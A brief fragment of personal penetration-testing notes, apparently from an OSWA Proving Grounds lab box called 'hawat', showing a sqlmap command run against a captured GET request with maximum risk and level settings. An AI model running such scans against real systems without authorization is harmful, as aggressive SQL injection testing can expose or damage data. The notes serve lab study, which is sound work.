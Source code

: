 `sqlmap` on `GET` request
![[Pasted image 20250113223439.png]]

```bash
┌──(root💀gobots)-[14Jan2025 03:11:43]-[/home/…/SUT/OSWA/proving_grounds/hawat]                                                                                                             
└─# sqlmap -r menu_get_req.txt --batch --risk=3 --level=5 --flush-session  
```